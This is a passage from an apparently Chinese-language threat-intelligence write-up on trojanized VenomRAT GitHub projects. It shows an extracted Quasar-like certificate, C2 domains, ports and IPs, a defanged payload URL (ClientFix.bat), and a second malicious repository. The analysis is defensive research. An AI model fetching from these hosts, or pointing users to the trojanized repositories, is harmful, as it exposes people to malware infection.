Certificate:MIIE9DCCAtygAwIBAgIQAPWuYhP6uaFvN0fnes1IQzANBgkqhkiG9w0BAQ0FADAbMRkwFwYDVQQDDBBRdWFzYXIgU2VydmVyIENBMCAXDTIyMTAxNDE4Mzc1OFoYDzk5OTkxMjMxMjM1OTU5WjAbMRkwFwYDVQQDDBBRdWFzYXIgU2VydmVyIENBMIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEAvU9Xe0VW2zJuiRh2OHwppCkt9mDCsYaIS6wr40YSeRltqCi8i1kJCjW33WRqbFc/haE+97kAA20aqqlIHqcCidlO58h4ADB/hSX6qPPdqfHOkbpGl1kJc6DAb454Eg9sxNBUa6KVuOLV8fCAMTy/jpOxLIDV9ykzEbgkHgXHzW/9EzSEK6Z8LnMcuDoU1i3jC6f3k+rhNem+HnsEYOhOcOcggi4VKpl15pPXn+uS8U0SXuZvqYeCKzB1HS0pHVTWF1Z0xitiriDu1HbP+ZvEd+6mzbMJ/NEP44JSyh5I7eNth80/wGsPcLzQSK/spi05D9WTd/o8fCfOkcslPx8N9XMlpsympN7lTaL3f3Iwy7Vdc1bHbX3kazjhwOrebyumFwocdDPlOkP0gd8Mr5sgGRw6lSSod7lZGNDnTv13DudhKWkoX3kcsapMbd0GVrhlp0rgx+k29+jHv/Zu+ZoArX3/ViIH6cg8T+yUz1TzZ5uJrN1My8GnnbiWMh/q0aqY6cIUH3NYy5CNOxp/9lr2YeUeqKGhvPyGNgQ9cM5etay9K5XpWora7i3v0bxQBqfpYcYITTPgFqGyV3YAZfT0xDV9ROUnBbw4AoYrsz+W2vBpIww44vYwJO30tsZ0w0KNpNAnigEKIi4BQ/uifKwIyfkngsdrtJZ5eP+YdzempcsCAwEAAaMyMDAwHQYDVR0OBBYEFEWUxrWbresNQH3PZdgnP5T76b5BMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZIhvcNAQENBQADggIBAKKhoHs4oz0+eN08oyVFzm6qlPnjwKrRv9JURDBL7vzpXZ8KmQrvjHtJJEItHAiVD8gD/rFaQRakBBNatL8t36iyz7n/R86EX3siCw0IgpeDB5hez4SNdQPYN1g2Wfj8lLZWFs9NlJZmvNwXj9GUN1vvv9ryww4/1CdKDiT/PpBRLVbpYor1PBtTWa/x/WJx4yMDeXMAv7CgRgx0z/L/j0qzA+w3Gi1Jeh4cw3CxDGKMLvEBTfOW7hD2J8RRC+KYsAeNq2WsU/Zsz0nGwXpp/lvV2LMWL418GO2ujSsRZSicV2F/M3+1c1Gb+u0zOETU3g+hhIzENHWxCUuzV0bYUqijC3EDKK/QwjXTH2eJDA7GrHR5c3DS3x5TGowx5tcRcOPzwMUdWJ+yQ6Fpapqp9KItHAyIBtgi8PfIZhhzdCM47c8eVf1RqVTfQcGJFbNvOlH5DLEl7aF6Z0N4gU8KpLJo+1S0Bhw8h2u4smoa/P7iJIQf6NiGEF7aVms3CZ0YaRZPZcqFTOL2/ZJ89h8wkCJojmX0Zunjwq7J6IdvLI/lzPsAnGkQFXkCRulZFgyjrOperTGyggwkoBw98D7EMU0rpuoE6UpRK98gZ7l78WAtOLWNSjwMYmr6UoieB/pJg63mXNhDL73VKP6dqqVEMFPzhm56qriKjPbAjhW/WVS9
```

解密效果截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175812-35a2881e-dc69-1.png)

解密提取的证书信息截图如下：

**备注：证书信息与 Quasar 生成的证书信息相似。此情况与`https://cybersecurity.att.com/blogs/labs-research/seroxen-rat-for-sale`报告中提到的情况相同**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175832-417608c8-dc69-1.png)

## 外联地址

| 域名  | IP  | 备注  |
| --- | --- | --- |
| hxxps://underground-cheat.com/venomFix/ClientFix.bat | 172.234.25.151 |     |
| dofucks.com:12482 | 199.59.243.225 |     |
| private115.duckdns.org:12482 | 91.178.236.90 |

结合 VT 进行分析，笔者发现攻击者的域名及 IP 资产存在相互解析的情况，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175852-4d6c0074-dc69-1.png)

## 其他携带恶意程序的 github 项目

除 VenomRAT-HVNC-5.6 项目外，笔者还发现[VenomRAT-v6.0.3-SOURCE-](https://github.com/Litrik002/VenomRAT-v6.0.3-SOURCE-)项目中也存在恶意代码程序，项目截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175912-5957b6d0-dc69-1.png)

恶意代码程序为伪装成 Venom RAT 控制端的 Venom RAT + H.exe 程序，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175926-61fd3198-dc69-1.png)

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175941-6acd80b6-dc69-1.png)

配置信息解密效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240307175954-72b964ca-dc69-1.png)
